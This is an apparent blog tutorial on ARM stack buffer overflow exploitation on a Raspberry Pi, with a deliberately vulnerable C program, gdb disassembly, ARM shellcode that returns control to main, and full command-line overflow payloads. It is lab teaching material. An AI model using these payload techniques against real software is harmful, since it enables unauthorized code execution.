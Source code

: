 ```yaml
---
layout: single
title: "ARM Exploitation with Raspberry Pi: Return Back to Program without Crashing"
excerpt:  "In this blog post, I will introduce you to ARM exploitation with Raspberry Pi and discuss how to return back to a program without crashing. We will be exploring the basics of stack buffer overflow and the techniques to bypass stack protections."  
seo_title:  "ARM Exploitation with Raspberry Pi: Return Back to Program without Crashing"
seo_description:  "Learn how to perform ARM exploitation with Raspberry Pi and return back to a program without crashing. This blog post covers the basics of stack buffer overflow and techniques to bypass stack protections. Get started with ARM exploitation today."
header:
  image: "https://live.staticflickr.com/65535/49799517733_05b4a81f72_h.jpg"
  teaser: "https://live.staticflickr.com/65535/49799517733_05b4a81f72_h.jpg"
categories:
  - Security
tags:
  - Exploitation
  - Tutorial
  - ARM
  - Buffer Overflow
  - Raspberry Pi
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```


In the previous post we have seen how to exploit using simple stack-based buffer overflow. 

[ARM Exploitation with Raspberry Pi: Basic Stack Overflow](https://shantoroy.com/security/ARM-exploitation-raspberry-pi-stack-overflow/)

However, in that post, we exploited the stack using a shellcode and later the program crashed. What if we executed some basic instructions and then return back to the main program as if nothing happened?

In this post, we will learn how to return back to the main program without crashing (avoid segmentation fault) even after we are overflowing the buffer.

Here, we will use the same C program that we used before.

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// This is our vulnerable function
void vulnerable(char *arg) {
    char buff[100];
    // to print return address
    printf("%p\n",&buff[0]);  
    strcpy(buff, arg);
}

// Pass argument in the vulnerable function
int main(int argc, char *argv[]) {
    vulnerable(argv[1]);
    return 0;
}
```

## Debugging
The first thing we need to know is the original return address. We can simply find the return address by disassembling the main program.

```
gef➤  disass main
Dump of assembler code for function main:
   0x000104f4 <+0>:		push	{r11, lr}
   0x000104f8 <+4>:		add	r11, sp, #4
   0x000104fc <+8>:		sub	sp, sp, #8
   0x00010500 <+12>:	str	r0, [r11, #-8]
   0x00010504 <+16>:	str	r1, [r11, #-12]
   0x00010508 <+20>:	ldr	r3, [r11, #-12]
   0x0001050c <+24>:	add	r3, r3, #4
   0x00010510 <+28>:	ldr	r3, [r3]
   0x00010514 <+32>:	mov	r0, r3
   0x00010518 <+36>:	bl	0x104b4 <vulnerable>
   0x0001051c <+40>:	mov	r3, #0
   0x00010520 <+44>:	mov	r0, r3
   0x00010524 <+48>:	sub	sp, r11, #4
   0x00010528 <+52>:	pop	{r11, pc}
End of assembler dump.
```

Here, we see, after the main functions calls **`vulnerable`** at address `0x00010518`, it returns back to the main at **`0x0001051c`**. 

So, after performing the `strcpy` in the `vulnerable` function, if we can return back to the original address, we can avoid the segmentation fault.

**Note**: usually, after overflowing the buffer and overwriting the original return address with the one points at NOP inside the same buffer, the program crashes as it no longer contains the original address.

Now, here, we will discuss two different ways to return back to the original program.
1. Return Using Program Counter
2. Return Using Linking Register

Here, the payload will look like as follows:
```
payload = NOP + shellcode + original return address 
		+ padding + overwritten return address pointing NOP 
```

## Return Using Program Counter
Here, we can simply load the return address in the `Program Counter` and the PC will point back to the main program.


### Assembly Code
Here is the instruction set that loads the address in PC.
```bash
.globl _start
_start:
	ADD R11, SP, #12
	LDR R1, [PC, #4]
	SUB PC, R1, #0x01000000

# as testf.s -o testf.o && ld -N testf.o -o testf
```
Point to be noted, we have the return address as **`0x0001051c`**, which have a NULL byte. So, we cannot simply use the instruction `LDR PC, [PC, #4]`. To remove it, first we load the address without null byte in register `R1` and then we subtract whatever we added to remove the NULL byte.

In ARM, the PC by default points to the instruction position by 8 Bytes from the current instruction. So, if we use `PC, #4`, that means we will have to use 4 Bytes of padding before we put the address in `Little Endian` format.

Using the first instruction, we fixed the frame address as it changes by 12 Bytes when it executes our shellcode. It may vary depending on the system you use.


### Shell Code
Now, we will generate the shellcode of the binary file as follows.
```bash
pi@raspberry$ ./hexstring.sh testf
"\x0c\xb0\x8d\xe2\x04\x10\x9f\xe5\x01\xf4\x41\xe2"
```

Note that, the code of the script named **`hexstring.sh`** is available in the first post of our exploitation tutorial series.

See post: [ARM Exploitation with Raspberry Pi: Lab Setup](https://shantoroy.com/security/ARM-exploitation-Raspberry-Pi-lab-setup/)

### Debugging
Let's first disassemble the vulnerable function
```
gef➤  disassemble vulnerable
Dump of assembler code for function vulnerable:
   0x000104b4 <+0>:		push	{r11, lr}
   0x000104b8 <+4>:		add	r11, sp, #4
   0x000104bc <+8>:		sub	sp, sp, #112	; 0x70
   0x000104c0 <+12>:	str	r0, [r11, #-112]	; 0xffffff90
   0x000104c4 <+16>:	sub	r3, r11, #104	; 0x68
   0x000104c8 <+20>:	mov	r1, r3
   0x000104cc <+24>:	ldr	r0, [pc, #28]	; 0x104f0 <vulnerable+60>
   0x000104d0 <+28>:	bl	0x10354 <printf@plt>
   0x000104d4 <+32>:	sub	r3, r11, #104	; 0x68
   0x000104d8 <+36>:	ldr	r1, [r11, #-112]	; 0xffffff90
   0x000104dc <+40>:	mov	r0, r3
   0x000104e0 <+44>:	bl	0x10360 <strcpy@plt>
   0x000104e4 <+48>:	nop			; (mov r0, r0)
   0x000104e8 <+52>:	sub	sp, r11, #4
   0x000104ec <+56>:	pop	{r11, pc}
   0x000104f0 <+60>:			; <UNDEFINED> instruction: 0x000105b8
End of assembler dump.
```
Now, let's take the breakpoint at the last instruction that returns back to the main function.
```
gef➤  b *0x000104ec
Breakpoint 1 at 0x104ec
```
Now, let's exploit using the following payload:
```
gef➤ run $(python -c 'print "\x01\x10\xa0\xe1"*20+"\x0c\xb0\x8d\xe2\x04\x10\x9f\xe5\x01\xf4\x41\xe2" + "AAAA"+ "\x1c\x05\x01\x01" + "JUNK"+ "\xd8\xf3\xff\x7e"')
```
Now, we can check the register contents and step by step instruction execution using the **`stepi`** command.

### Execution in Terminal
If succeed using the debugger, we can now test in the terminal. 

```bash
pi@raspberry$ ./buf $(python -c 'print "\x01\x10\xa0\xe1"*20+"\x0c\xb0\x8d\xe2\x04\x10\x9f\xe5\x01\xf4\x41\xe2" + "AAAA"+ "\x1c\x05\x01\x01" + "JUNK"+ "\x6c\xf4\xff\x7e"')
```
One thing to remember, the address of the buffer may change outside gdb. So, first check the address printed while running the program.

## Return Using Linking Register
As `LR` contains the return address, we can also load the original address again in the LR and then branch (BX) to it. Here, follow the similar steps we discussed above.
 
### Assembly Instruction
```
.globl _start
_start:
	ADD R11, SP, #12
	LDR LR, [PC, #4]
	SUB LR, LR, #0x01000000
	BX LR

# as testa.s -o testa.o && ld -N testa.o -o testa
```

### Shellcode
```
"\x0c\xb0\x8d\xe2\x04\xe0\x9f\xe5\x01\xe4\x4e\xe2\x1e\xff\x2f\xe1"
```

### Debugging
```
gef> run $(python -c 'print "\x01\x10\xa0\xe1"*20+"\x0c\xb0\x8d\xe2\x04\xe0\x9f\xe5\x01\xe4\x4e\xe2\x1e\xff\x2f\xe1"+ "\x1c\x05\x01\x01" + "JUNK"+ "\xd8\xf3\xff\x7e"')
```

### Execution in Terminal
```
./buf $(python -c 'print "\x01\x10\xa0\xe1"*20+"\x0c\xb0\x8d\xe2\x04\xe0\x9f\xe5\x01\xe4\x4e\xe2\x1e\xff\x2f\xe1"+ "\x1c\x05\x01\x01" + "JUNK"+ "\x7c\xf4\xff\x7e"')
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE5MzcxNzkxNTgsLTIxNDM4ODcxOTEsMT
AxMzE4MTg3OCwtNzc4NjQ5Mzc0LC0xNDY5MTI3MjM5LDIwNDQw
MDc3OTUsMTg5MzA3NzM4NCwxMDY0NTgzNDEzLDI5MzE3MjUxLD
k2MzQyNzc0NCwxODk1Njc4ODU0LDEyMjUwNTQ2MDFdfQ==
-->